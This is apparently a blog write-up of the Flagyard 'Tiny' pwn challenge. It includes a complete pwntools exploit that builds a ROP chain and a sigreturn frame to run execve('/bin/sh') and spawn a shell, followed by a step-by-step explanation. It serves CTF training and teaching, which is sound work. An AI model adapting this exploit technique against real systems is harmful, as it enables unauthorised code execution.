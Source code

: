 ```yaml
---
title: "Flagyard - Tiny"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Tiny
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Tiny](https://flagyard.com/labs/training-labs/13/challenges/3f614fb4-65b8-48a3-894a-3e918a6d182d)|
|Category:|PWN|

# 01. Description
## Introduction
This task comes from the challenge platform [Flagyard](https://flagyard.com/) and is marked as **easy**. However, the solution requires creative techniques and in-depth knowledge of exploitation concepts. While the binary is small and lacks traditional protections, the limited set of gadgets and syscall handling makes this challenge more intricate than it initially appears.
{: .text-justify}

## Binary Information

### **Checksec Results**
```plaintext
   Arch:       amd64-64-little
   RELRO:      No RELRO
   Stack:      No canary found
   NX:         NX unknown - GNU_STACK missing
   PIE:        No PIE (0x400000)
   Stack:      Executable
   RWX:        Has RWX segments
   Stripped:   No
```

### **LDD Results**
```plaintext
ldd ./tiny
        not a dynamic executable
```

### **Analysis**
- **No external libraries:** The binary is not dynamically linked; it does not use external shared libraries.
- **Built-in functions:** The binary contains internal implementations of `read`, `write`, and a `gadget` symbol. This indicates custom syscall handling.
- **No stack protections:** The binary lacks stack canaries, RELRO, and NX, making exploitation theoretically easier.
- **One useful gadget:** The only usable gadget is `pop rsi; ret`, significantly limiting the available ROP chain options.

---

## Time Spent on the Exploit
I spent several hours working on this solution. Despite the binary being named "tiny," it was far from simple. The challenge does not involve traditional buffer overflow vulnerabilities. Instead, you construct ROP chains directly while supplying data to the binary.
{: .text-justify}
Due to the lack of useful gadgets (with only `pop rsi` being helpful), the exploit heavily relies on `sigreturn` to gain full control over the registers. Crafting the right approach to manipulate syscalls and use a minimal set of gadgets required significant effort and debugging.
{: .text-justify}
---
## Solve in Python
```python
from pwn import *  # Include pwntools library

# Set up context for the exploit
context.update(arch='x86_64', os='linux')  # Set architecture and OS for pwntools
context.terminal = ['wt.exe', 'wsl.exe']   # Use Windows Terminal with WSL

# Load the binary
binary = context.binary = ELF("./tiny", checksec=False)

# Determine whether to connect locally or remotely
if args.REMOTE:
    p = remote('nc 34.252.33.37 32435'.split()[1], 32435)  # Remote connection
else:
    p = process(binary.path)  # Local process

# Gadgets and addresses
pop_rsi = binary.sym["gadget"]          # Resolve the symbol for the pop_rsi gadget
bss = 0x0000000000402008                # Address of the writable .bss section
read = 0x000000000040103c               # Modified read function to ignore unnecessary registers
syscall = 0x000000000040102d            # syscall gadget with ret

# Prepare the SigreturnFrame for sigreturn-oriented programming (SROP)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b            # Set rax to 59 for execve
frame.rdi = bss             # Set rdi to point to /bin/sh in .bss
frame.rsi = 0x0             # Set rsi to NULL (argv)
frame.rdx = 0x0             # Set rdx to NULL (envp)
frame.rip = syscall         # Set rip to the syscall gadget

# Build the ROP payload
# - Load the .bss address into rsi using pop_rsi
# - Call the read function to write "/bin/sh" into .bss
# - Prepare the sigreturn frame to set registers for execve
payload = (
    p64(pop_rsi) + p64(bss) + p64(read) +  # Load bss into rsi for the read syscall
    p64(syscall) + bytes(frame)           # Trigger the sigreturn syscall with the frame
)

p.sendafter(b"rop me:", payload)          # Send the payload
                                          # Includes:
                                          # - Loading bss into rsi
                                          # - Calling read to populate bss with "/bin/sh"
                                          # - Preparing the sigreturn frame to set registers

p.send(b"/bin/sh" + b"\x00" * 8)          # Send "/bin/sh" to bss and ensure rax = 15 for sigreturn
                                          # Creates the string "/bin/sh" and prepares for execve

p.interactive()                           # Switch to interactive mode to access the shell
```
## Explanation of How the Exploit Works

### **Binary Setup**
The binary lacks standard protections, which makes it theoretically exploitable. However, it compensates for this with very limited gadgets and built-in syscall handling, requiring a creative approach using Sigreturn-Oriented Programming (SROP).
{: .text-justify}
### **Step-by-Step Explanation**
1. **Dynamic Resolution of Gadgets:**
   - The `pop rsi` gadget is dynamically resolved using `binary.sym["gadget"]`. This makes the exploit more robust to changes in the binary.

2. **Writable Memory Section:**
   - The `.bss` section (address `0x402008`) is used as a writable location to store the `/bin/sh` string.

3. **Data Injection (`/bin/sh`):**
   - The string `/bin/sh` is sent in a separate line along with null bytes (`\\x00`). This operation writes `/bin/sh` to `.bss` and sets `rax = 15` (number of bytes read by the `read` syscall).

4. **ROP Chain Execution:**
   - The payload first loads `.bss` into `rsi` and calls `read`. After sending `/bin/sh`, execution "returns" to the main payload in `sendafter`. At this point:
     - A syscall is executed with `rax = 15`, triggering `sigreturn`.
     - The frame on the stack configures the registers for the final `execve` syscall.
```plaintext
p.sendafter(p64(pop_rsi)+p64(bss)+p64(read)                  p64(syscall)+bytes(frame))
                                           ⬊                      ⬈
          					p.send(b"/bin/sh"+b"\x00"*8)      
```
5. **Executing the `execve` Syscall:**
   - The `execve` syscall is executed with the configured registers, launching an interactive shell.

### **Key Takeaways**
- This exploit demonstrates the power of SROP in a minimalistic binary with limited gadgets.
- By using the `sigreturn` syscall, full control over all registers is achieved, bypassing the limitations imposed by the binary's design.
- Despite its simplicity in appearance, this binary requires an advanced understanding of syscall behavior and ROP chains to exploit effectively.

## Summary
This was an interesting challenge. It taught me a new technique, patience, and the importance of not giving up. Despite its minimalistic design, the task required a deep understanding of system calls and exploitation strategies, making it a rewarding learning experience.
{: .text-justify}



